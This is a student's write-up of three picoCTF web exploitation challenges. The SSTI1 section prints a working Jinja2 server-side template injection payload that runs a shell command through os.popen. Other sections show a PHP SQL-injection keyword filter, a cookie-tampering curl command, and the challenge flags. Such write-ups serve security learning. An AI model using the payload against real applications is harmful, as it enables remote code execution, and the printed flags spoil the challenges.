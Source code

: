 # Module-Web Exploiatation
## Challenge 1-SSTI1
## What I did
```
I looked up pyjail ssti1. Thereafter, I came upon {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag')['read']()}}. I pasted this on the website, which gave me the flag.
```
## Flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
## What I learned
In the SSTI1 challenge, I learned how Server-Side Template Injection (SSTI) vulnerabilities work and how they can be exploited when user input is unsafely embedded into server-side templates. By experimenting with different payloads, I discovered how template engines like Jinja2 can unintentionally execute code if input isn’t properly sanitized. This taught me the importance of input validation and using safe rendering methods. Overall, the challenge helped me understand how even simple-looking web forms can expose serious security flaws if user input directly interacts with backend logic.


## Challenge 2-Web Gauntlet
## What I did
```
<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_79a0ddc6}
?>
```
## Flag
picoCTF{y0u_m4d3_1t_79a0ddc6}



## Challenge 3-Cookies
## Challenge goal: 
Find the flag by manipulating cookies sent to the web application.
## What I found

Visiting the challenge URL showed a small app that changes behavior depending on a cookie named name. The page did not require authentication or any form input — the interesting data was driven by the request cookie. By observing responses while changing the cookie value I discovered that when name=18 the server returns the flag.
## What I did
```
This one-liner requests the /check endpoint while setting the cookie and prints any picoCTF{...} in the response:

curl -s -L http://<challenge-host>:<port>/check -H 'Cookie: name=18' \
  | grep -oE 'picoCTF\{[^}]+\}'
```
## Flag
picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

